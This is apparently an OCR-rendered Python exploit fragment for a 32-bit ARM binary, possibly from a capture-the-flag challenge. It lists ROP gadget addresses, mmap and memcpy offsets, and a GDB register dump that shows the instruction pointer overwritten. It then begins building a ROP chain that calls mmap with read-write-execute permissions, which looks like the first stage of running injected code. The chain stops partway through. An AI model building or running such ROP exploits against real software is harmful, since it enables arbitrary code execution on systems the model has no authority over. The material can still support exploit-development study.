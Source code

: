 ```python
#0x000128fe : pop {r5, pc}
r5pop = 0x000128fe
#0x000118c6 : pop {r4, pc}
r4pop = 0x000118c6
#0x000172a6 : pop {r2, r3, r4, pc}
r234pop = 0x000172a6
#0x00016c12 : pop {r1, r4, pc}
r14pop = 0x00016c12
#0x00015c24 : pop {r0, r3, pc}
r03pop = 0x00015c24
#0x00012b4e : pop {r2, pc}
r2pop = 0x00012b4e
#0x000111c4 : pop {r3, pc} not thumb
r3popnothumb = 0x000111c4
#0x00011f52 : blx r4
blxr4 = 0x00011f52
#       void *mmap(void *addr, size_t len, int prot, int flags, int fildes, off_t off);
mmap = 0x00011240
mmap = 0x00013E0C +1
memcpy = 0x00011410
memcpy_got = 0x000320C0
#0x0001fe36 : add r3, sp, #0x2b8
addr3sp = 0x0001fe36

#0x000176c0 : add r0, sp, #0x1a0 ; movs r1, r0 ; bx lr
#0x000122c0 : ldm.w ip, {r5, sb, sl, lr} ; add sp, #0x10 ; pop {r4, pc}
ctrlr = 0x000122c0
#0x00014b5a : ldr lr, [sp], #4 ; b.w #0x1263e
setlrjmpr3 = 0x00014b5a
"""
Register state when we take control of PC
r0             0x0                 0
r1             0x38024             229412
r2             0x35a70             219760
r3             0x35a70             219760
r4             0x61716161          1634820449
r5             0x61726161          1634885985
r6             0x61736161          1634951521
r7             0x61746161          1635017057
r8             0x61756161          1635082593
r9             0x61766161          1635148129
r10            0x61776161          1635213665
r11            0x61786161          1635279201
r12            0x7                 7
sp             0x7efe9b38          0x7efe9b38
lr             0x3f                63
pc             0x5a5a5a5a          0x5a5a5a5a
cpsr           0x600b0110          1611333904
fpscr          0x10                16
"""
address = 0x177000
stderr = 0x00036E90
ropchain = c[:74] + p32(stderr) + p32(address) * 4 
ropchain = ropchain.ljust(94, "A")
ropchain += p32(r3popnothumb)
ropchain += p32(address) #r3 dont care
ropchain += p32(r5pop+1)
ropchain += p32(address) #r5 dont care
ropchain += p32(r14pop+1)
ropchain += p32(0x1000) #r1 size
ropchain += p32(address) #r4 dont care
ropchain += p32(r234pop+1) #pc
ropchain += p32(7) #r2 prot
```
